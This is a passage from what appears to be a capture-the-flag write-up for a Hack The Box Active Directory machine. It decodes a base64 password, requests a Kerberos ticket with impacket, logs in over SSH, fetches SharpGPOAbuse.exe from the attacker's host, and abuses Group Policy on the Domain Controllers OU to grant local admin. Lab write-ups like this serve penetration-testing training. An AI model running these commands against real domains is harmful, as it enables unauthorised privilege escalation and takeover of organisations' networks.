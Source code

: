 ```
root_dir = c:\wapt\waptserver\repository\wads\pxe
log_path = c:\wapt\log
```

Got a base64 string as the password:

```bash
echo 'IXN1QmNpZ0BNZWhUZWQhUgo=' | base64 -d
!suBcig@MehTed!R
```

Got a password, this is most likely the password of `M.Schoolbus` due to the privileges of the user being similar to administrator ones, let's go into ssh again to check it out:

```
impacket-getTGT frizz.htb/'M.SchoolBus':'!suBcig@MehTed!R' -dc-ip frizzdc.frizz.htb

export KRB5CCNAME=M.SchoolBus.ccache

ssh -o PreferredAuthentications=gssapi-with-mic -o GSSAPIAuthentication=yes M.SchoolBus@frizz.htb -K
```

![](images/Pasted%20image%2020250616184457.png)

Ok, the last step we need is to exploit that we are able to create a GPO as shown in bloodhound, for this, we can use `SharpGPOABUSE`:

FILE: https://github.com/byronkg/SharpGPOAbuse/blob/main/SharpGPOAbuse-master/SharpGPOAbuse.exe

We need to get the file into our machine, can be done using the same method as before:

```powershell
Invoke-WebRequest "http://10.10.14.40:8000/SharpGPOAbuse.exe" -OutFile "SharpGPOAbuse.exe"
```

Once we got our file, we can begin, first of all we must create the GPO over domain controllers:

```powershell
New-GPO -Name New-GPO | New-GPLink -Target "OU=DOMAIN CONTROLLERS,DC=FRIZZ,DC=HTB" -LinkEnabled Yes
```

![](images/Pasted%20image%2020250616185424.png)


Now, we can use the tool in our new GPO to get the same privilege as admin:

```
.\SharpGPOAbuse.exe --AddLocalAdmin --UserAccount M.SchoolBus --GPOName New-GPO --force
```

![](images/Pasted%20image%2020250616185448.png)

Now we need to update:

```
gpupdate /force
```

![](images/Pasted%20image%2020250616191049.png)
